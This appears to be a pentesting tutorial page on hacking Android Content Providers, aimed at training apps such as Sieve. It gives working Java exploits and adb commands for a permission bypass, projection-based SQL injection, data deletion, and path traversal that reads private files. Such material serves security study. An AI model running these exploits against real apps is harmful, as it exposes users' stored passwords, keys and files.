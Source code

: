 # Content Provider Hacking

**Overview**

Content Providers manage access to a structured set of data in Android applications. They encapsulate data and provide mechanisms for defining data security. They can be targeted for various vulnerabilities such as SQL Injection and Path-Traversal attacks.

**Key Areas of Focus**

1. **Exported Content Providers**
2. **SQL Injection Vulnerabilities**
3. **Path-Traversal Vulnerabilities**

***

### 1. Exported Content Providers

**What to Look For:**

* **Exported Providers**: Check if the Content Provider is exported in the `AndroidManifest.xml` file. An exported provider can be accessed by other applications.
* **Permissions**: Examine if the Content Provider is protected by permissions. If the `protectionLevel` is not set to `signature`, it might be circumvented.

```xml
<provider
    android:name="com.example.provider"
    android:authorities="com.example.provider"
    android:exported="true"
    android:permission="com.example.provider.READ_WRITE" />
```

<figure><img src="../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

#### **Code Exploit**&#x20;

```java
Uri uri = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Passwords");
Cursor queryCursor = getContentResolver().query(uri,null,null,null,null);

textView.setText("cursor " + DatabaseUtils.dumpCursorToString(queryCursor));
```

**AndroidManifest.xml** in all exploits should have those lines

```xml
<queries>
    <package android:name="com.apphacking.musicplayer"/>
</queries>
```

#### Case 1: Permission Bypass

Bypassing the custom user permission, because of the missing regex regarding to the PATH

Simply appending `/////` at the end of our content URI will bypass it.

**Code Exploit**

```java
Uri uri = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Keys/////");
Cursor queryCursor = getContentResolver().query(uri,null,null,null,null);

textView.setText("cursor " + DatabaseUtils.dumpCursorToString(queryCursor));
```

### 2. SQL Injection Vulnerabilities

<figure><img src="../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Steps to Identify:**

* **Check Query Methods**: Look at the `query` method to see if user inputs are properly sanitized.
* **Identify Tables**: Locate the tables used within the Content Provider by searching for `content://` URIs in the code.

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Example Code to Identify SQL Injection Points:**

```java
String selection = "SELECT * FROM users WHERE username = ?";
Cursor cursor = db.rawQuery(selection, new String[]{username});
```

Now we need to identify the tables in the Java code. We can look for the keyword “`content://`“.

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### **Case 1**

* We need to query the Passwords table to insert our own SQL statement
* SQL statement will be inserted via the projection
* SQL syntax is sth like: `SELECT * FROM Passwords WHERE ....`
* projection --> `SELECT '* FROM Key--;' (ignored .... FROM Passwords WHERE)`

**Exploit**

```java
Uri uri = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Passwords");

String[] projection = new String[] {"* FROM KEY--;"};
Cursor queryCursor = getContentResolver().query(uri,projection,null,null,null);

textView.setText("cursor " + DatabaseUtils.dumpCursorToString(queryCursor));
```

#### Case 2

* Granting the custom permissions of the sieve application to query the Key table.
* consider:
* Define them in the Manifest

```xml
<uses-permission android:label="@string/perm_descr" android:name="com.mwr.example.sieve.READ_KEYS" android:protectionLevel="dangerous"/>
<uses-permission android:label="@string/perm_descr" android:name="com.mwr.example.sieve.WRITE_KEYS" android:protectionLevel="dangerous"/>
```

* We need to ask for them during runtime.&#x20;

```java
String[] permission = new String[] {"com.mwr.example.sieve.READ_KEYS"};
ActivityCompat.requestPermissions(this, permission,9001);

Uri uri = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Keys");

String[] projection = new String[] {"*"};
Cursor queryCursor = getContentResolver().query(uri,projection,null,null,null);

textView.setText("cursor " + DatabaseUtils.dumpCursorToString(queryCursor));
```

**Example SQL Injection Attack:**

*   **Extract All Entries**:

    ```bash
    $ content query --uri content://com.example.provider/users --projection "* FROM users--"
    ```
*   **Inserting Data**:

    ```bash
    $ content insert --uri content://com.example.provider/users --bind name:s:admin
    ```
*   **Updating Data**:

    ```bash
    $ content update --uri content://com.example.provider/users --bind name:s:hacker --where "name='admin'"
    ```
*   **Deleting Data**:

    ```bash
    $ content delete --uri content://com.example.provider/users --where "name='admin'"
    ```

### 3. Path-Traversal Vulnerabilities

**Steps to Identify:**

* **Check Exported Providers**: Again, ensure the Content Provider is exported.
* **ParcelFileDescriptor**: Look for `ParcelFileDescriptor openFile` method and ensure the URI input is sanitized.

**Example Path-Traversal Attack:**

*   **Reading Arbitrary Files**:

    ```bash
    $ content read --uri content://com.example.provider/../../../../../../etc/hosts
    ```

#### Code Exploit

```java
public class MainActivity extends AppCompatActivity {

    InputStream inputStream;
    TextView textView;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        textView = (TextView) findViewById(R.id.textView);

        Uri uri = Uri.parse("content://com.apphacking.musicplayer/../../../../../../../data/data/com.apphacking.musicplayer/files/mySecretFile");

        try {
            inputStream = getContentResolver().openInputStream(uri);
        } catch (FileNotFoundException e) {
            e.printStackTrace();
        }

        InputStreamReader inputStreamReader = new InputStreamReader(inputStream);
        BufferedReader bufferedReader = new BufferedReader(inputStreamReader);
        String fileInput = "";

        try {

            while (bufferedReader.ready()) {
                fileInput += bufferedReader.readLine();
                fileInput += "\n";
            }

        } catch (IOException e) {
                e.printStackTrace();
            }

        textView.setText("Accessing mySecretFile: \n" + fileInput);

    }
}
```

#### Summary

When pentesting Content Providers in Android applications, focus on:

* Ensuring Content Providers are not improperly exported.
* Checking for SQL Injection vulnerabilities by examining how inputs are handled in query methods.
* Identifying and exploiting Path-Traversal vulnerabilities by verifying how file URIs are processed.

By thoroughly investigating these areas, you can identify and exploit significant vulnerabilities in Android applications' Content Providers.
